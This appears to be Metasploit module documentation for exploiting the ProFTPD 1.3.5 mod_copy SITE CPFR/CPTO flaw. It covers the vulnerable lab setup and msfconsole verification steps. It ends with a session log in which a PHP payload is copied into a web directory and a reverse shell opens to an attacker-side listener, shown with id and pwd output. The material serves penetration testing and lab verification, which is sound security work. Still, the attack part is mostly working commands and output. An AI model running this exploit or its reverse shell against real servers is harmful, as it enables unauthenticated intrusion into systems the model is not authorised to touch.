 ## Vulnerable Application

This module exploits the SITE CPFR/CPTO mod_copy commands in ProFTPD version 1.3.5.
Any unauthenticated client can leverage these commands to copy files from any
part of the filesystem to a chosen destination. The copy commands are executed with
the rights of the ProFTPD service, which by default runs under the privileges of the
'nobody' user. By using /proc/self/cmdline to copy a PHP payload to the website
directory, PHP remote code execution is made possible.


## Installation Steps

Download and build:

```sh
sudo apt install gcc make
wget ftp://ftp.proftpd.org/distrib/source/proftpd-1.3.5.tar.gz
tar zxvf proftpd-1.3.5.tar.gz
cd proftpd-1.3.5
./configure --with-modules=mod_copy
make
```

Run ProFTPD using the sample default configuration file (in foreground with `-n` flag for testing):

```
sudo ./proftpd -n -c "`pwd`/sample-configurations/basic.conf"
```

Set up a web server with a world-writable directory:

```
sudo apt install php apache2
sudo mkdir /home/var/www/html/test
sudo chmod 777 /var/www/html/test
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/unix/ftp/proftpd_modcopy_exec`
1. Do: `set rhosts <rhosts>`
1. Do: `set rport_ftp <remote ftp port>`
1. Do: `set tmppath <writable temporary file path>`
1. Do: `set sitepath <writable web server file path>`
1. Do: `run`
1. You should get a new session.

## Options

### RPORT_FTP

FTP port (default: `21`)

### TMPPATH

Absolute writable path (default: `/tmp`)

### SITEPATH

Absolute writable website path (default: `/var/www`)


## Scenarios

### ProFTPD 1.3.5 on Ubuntu 22.04

```
msf > use exploit/unix/ftp/proftpd_modcopy_exec
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf exploit(unix/ftp/proftpd_modcopy_exec) > set rhosts 192.168.200.158
rhosts => 192.168.200.158
msf exploit(unix/ftp/proftpd_modcopy_exec) > check
[*] 192.168.200.158:80 - The target appears to be vulnerable. 192.168.200.158:21 - Unauthenticated SITE CPFR command was successful
msf exploit(unix/ftp/proftpd_modcopy_exec) > set sitepath /var/www/html/test
sitepath => /var/www/html/test
msf exploit(unix/ftp/proftpd_modcopy_exec) > set targeturi /test
targeturi => /test
msf exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.158:80 - 192.168.200.158:21 - Connected to FTP server
[*] 192.168.200.158:80 - 192.168.200.158:21 - Sending copy commands to FTP server
[*] 192.168.200.158:80 - Executing PHP payload /test/EbzQzU.php
[+] 192.168.200.158:80 - Deleted /var/www/html/test/EbzQzU.php
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.158:46352) at 2023-03-19 00:22:49 -0400

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
pwd
/var/www/html/test
```
